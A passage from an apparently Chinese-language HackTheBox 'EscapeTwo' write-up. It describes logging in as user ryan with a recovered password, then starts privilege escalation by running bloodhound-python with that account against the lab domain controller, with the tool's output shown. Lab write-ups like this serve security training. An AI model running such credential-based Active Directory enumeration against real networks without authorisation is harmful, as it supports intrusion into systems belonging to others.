 使用这个密码可以登录**ryan**的账户获取到**user.txt**

![](./images/image-21.png)

## Privilege Escalation

在**Evil-winrm**里查看**ipconfig**

![](./images/image-22.png)

把**sequel.htb**和**dc01.seqeul.htb**添加到**/etc/hosts**

### Bloodhound

```
[root@kali] /home/kali/EscapeTwo  
❯ bloodhound-python -u ryan -p "WqSZAFXXXXXXXX" -d sequel.htb -ns 10.10.xx.xx -c All
INFO: Found AD domain: sequel.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
INFO: Connecting to LDAP server: dc01.sequel.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc01.sequel.htb
INFO: Found 10 users
INFO: Found 59 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC01.sequel.htb
INFO: Done in 00M 16S
```
